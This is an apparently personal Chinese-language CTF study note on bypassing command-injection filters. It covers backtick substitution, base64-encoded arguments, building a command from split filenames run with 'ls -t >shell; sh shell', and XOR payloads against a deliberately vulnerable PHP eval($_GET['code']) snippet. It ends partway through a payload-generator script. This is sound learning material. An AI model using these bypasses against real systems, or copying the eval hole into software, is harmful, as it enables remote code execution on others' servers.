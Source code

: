 
+ 反引号绕过
这里因为命令ls的输出是flag，所以也就是将ls的输出作为了cat命令的输入
![Pasted image 20240910210519.png](/img/user/picture/Pasted%20image%2020240910210519.png)

+ 编码绕过

```
echo 'flag' | base64
cat `echo ZmxhZwo= | base64 -d`
```
![Pasted image 20240910210821.png](/img/user/picture/Pasted%20image%2020240910210821.png)
也就是`echo ZmxhZwo= | base64 -d`这个命令的输出是flag


+ 组合绝活
```
touch "ag"
touch "fl\\"
touch "t \\"
touch "ca\\"
ls -t >shell
sh shell
```
![Pasted image 20240910211546.png](/img/user/picture/Pasted%20image%2020240910211546.png)

其中`\`指的是换行
ls -t是将文本按时间输出，其中最新创建的在前面


+ 异或无符号
这种用于绕过过滤字符的情形
```php
<?php  
error_reporting(0);  
highlight_file(__FILE__);  
$code = $_GET['code'];  
if(preg_match('/[a-z0-9]/i',$code)){  
    die('hacker');  
}  
eval($code);
```

![Pasted image 20240910215757.png](/img/user/picture/Pasted%20image%2020240910215757.png)
![Pasted image 20240910215809.png](/img/user/picture/Pasted%20image%2020240910215809.png)


这个脚本是通过php来生成一个txt文件，py脚本通过生成的txt文件来生成出最终的payload

其中每个脚本代码如下：

**rce-xor-or.php：**
```php
<?php
$myfile = fopen("res_xor.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) {
    for ($j=0; $j <256 ; $j++) {

        if($i<16){
            $hex_i='0'.dechex($i);
        }
        else{
            $hex_i=dechex($i);
        }
        if($j<16){
            $hex_j='0'.dechex($j);
        }
```